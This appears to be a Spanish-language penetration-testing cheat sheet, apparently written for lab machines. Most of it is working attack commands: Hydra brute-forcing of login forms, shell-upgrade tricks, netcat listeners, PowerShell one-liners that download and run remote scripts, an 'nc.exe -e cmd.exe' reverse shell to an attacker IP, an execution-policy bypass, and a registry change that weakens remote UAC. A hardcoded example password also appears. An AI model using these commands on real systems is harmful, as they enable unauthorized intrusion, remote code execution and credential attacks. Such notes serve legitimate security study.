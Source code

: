 # General

## Utilidades

### Linux

#### tree.sh

```bash
#!/bin/bash
pwd=$(pwd)
echo Tree of: $pwd
find $pwd -print | sed -e "s;$pwd;\.;g;s;[^/]*\/;|__;g;s;__|; |;g"
#very simple script. REALLY!
echo '|__end tree'
```

## Herramientas

### Hydra

`hydra -l <USER> -p <PASSWORD> <IP_ADDRESS> http-post-form "<LOGIN_PAGE>:<REQUEST_BODY>:<ERROR_MESSAGE>"`

##### JSON Payload

`hydra -l "root@dasith.works" -P "/usr/share/wordlists/rockyou.txt" -s 3000 10.129.244.81 http-post-form "/api/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=Password is wrong:H=content-type: application/json"`

## TTY

### Linux

```
ctrl + z
echo $TERM && tput lines && tput cols

# bash
stty raw -echo
fg

# zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

socat:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

Intérprete:

```
/usr/bin/script -qc /bin/bash /dev/null
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

# vi
:!bash
:set shell=/bin/bash:shell

# nmap
!sh

# mysql
! bash
```

### Windows

[ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

Server:

```bash
# 1
rlwrap nc -lvnp 3001

# 2
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Cliente:

```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

# Proxy debugging

TODO: Agregar comandos de shellhacks.com para redireccionar todo el tráfico de la consola a burpsuite

# Windows

## Crackmapexec `(Pwn3d!)`

`cmd.exe /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`

## Powershell

### Bypass de execution policy

```powershell
powerShell.exe -ExecutionPolicy Bypass .\script.ps1
```

Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

### Invoke command providing credentials

```powershell
$userName = 'WORKGROUP\Hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
# ComputerName obtenida de los comandos: 
hostname
$env:COMPUTERNAME
[Environment]::MachineName

Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock {C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.16 4321}

Start-Process -FilePath 'powershell' -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')" -Credential $credObject
```